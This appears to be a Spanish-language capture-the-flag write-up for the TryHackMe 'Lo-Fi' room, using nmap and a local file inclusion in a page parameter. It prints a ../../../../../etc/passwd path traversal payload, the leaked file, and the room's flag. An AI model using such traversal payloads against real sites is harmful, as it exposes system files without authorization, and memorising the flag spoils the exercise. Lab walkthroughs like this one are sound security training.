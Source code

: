 ```yaml
---
title: "TryHackMe - Lo-Fi "
date: 2025-10-15
lastmod: 2025-10-15
categories: [TryHackMe]
tags: [Web, TryHackMe, CTF, Linux, LFI, Path Traversal]
toc: true
math: false
mermaid: true
image:
  path: assets/img/TryHackMe/Lo-Fi/logo.png
---
```


## Target
- **Host:** `http://lofi.thm`  
- **Plataforma:** TryHackMe   
- **Nivel:** <span style="color: #66bb6a;">Easy</span>
- **Objetivo:** Encontrar la flag.

---

## Introduccion

Esta máquina es vulnerable a LFI (Local File Inclusion).
Un LFI permite a un atacante que controle un parámetro usado para incluir archivos en el servidor leer ficheros locales (p. ej. /etc/passwd, archivos de configuración) y, en determinadas condiciones del entorno, escalar el impacto. En este writeup mostraré cómo identifiqué y exploté la capacidad de lectura de archivos para la enumeración y obtención de la flag.

## Enumeración

Empiezo enumerando los puertos abiertos para identificar los servicios que corre la máquina. Como siempre, primero añado `lofi.thm` a mi archivo `/etc/hosts` y, a continuación, lanzo `nmap`.

```bash
nmap -T4 -p- -sS -sV -sC -oA nmap/first lofi.thm
```
| Parámetro | Descripción |
| :--- | :--- |
| **-T4** | Aumenta la velocidad del escaneo. |
| **-p-** | Escanea todos los puertos especificados. |
| **-sS** | SYN scan, rápido y eficiente para detectar puertos abiertos. |
| **-sV** | Detecta la versión del servicio. |
| **-sC** | Ejecuta los scripts NSE por defecto. |
| **-oA nmap/first** | Guarda la salida en tres formatos (`.nmap`, `.xml`, `.gnmap`). |
| **lofi.thm** | Host resuelto mediante `/etc/hosts` (evita usar la IP directamente). |

A continuación, se muestra el resultado detallado del escaneo, donde encontramos dos puertos abiertos: el servicio ssh y el servicio web HTTP en Linux.

```text
Starting Nmap 7.80 ( https://nmap.org ) at 2025-10-15 14:35 BST
Nmap scan report for lofi.thm (10.10.90.159)
Host is up (0.00014s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Lo-Fi Music
MAC Address: 02:7D:39:98:AE:E5 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.05 seconds
```

### Enumeración puerto 80

Web Principal

![Web principal](assets/img/TryHackMe/Lo-Fi/website.png)

Al navegar y pulsar en relax observamos la URL ?page=relax.php, lo que sugiere que el parámetro page se usa directamente para cargar archivos, posible **LFI**:

![relax](assets/img/TryHackMe/Lo-Fi/relax.png)

Cuando intento establecer rutas del sistema, la aplicación responde con un mensaje indicando bloqueo por un WAF u otra protección:

![lfi](assets/img/TryHackMe/Lo-Fi/lfi.png)

Teniendo en cuenta que el servidor web es Apache, intentaremos acceder a la ruta /etc/passwd con path traversal.  

**Path traversal**: usar ../ (o variantes codificadas) para subir en el árbol de directorios y acceder a archivos fuera del directorio web, p. ej. ../../../../etc/passwd.

¿Qué hace ../../../../etc/passwd?
Cada .. sube un nivel en la jerarquía de carpetas. Si concatenas suficientes ../ desde la carpeta donde la web incluye archivos, puedes alcanzar la raíz del sistema y acceder a /etc/passwd. En sistemas modernos /etc/passwd contiene usuarios y UIDs pero no las contraseñas en texto (esas están en /etc/shadow).

Probamos con  ../../../../../etc/passwd y vemos que nos muestra el contenido de /etc/passwd 

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```
![vulnerabilidad](assets/img/TryHackMe/Lo-Fi/vulnerabilidad.png)

Para encontrar la flag una pista que da antes de empezar la maquina es la siguiente:
`find the flag in the root of the filesystem.`
Esta pista nos da varias rutas a pensar:
- /root/
- /

Posibles nombres de archivos donde se  suelen ubican las flags:
- root.txt
- flag.txt

Probamos en el directorio raiz / el archivo flag.txt
![flag](assets/img/TryHackMe/Lo-Fi/flag.png)

Y encontramos la flag :
- `flag{e4478e0eab69bd642b8238765dcb7d18}`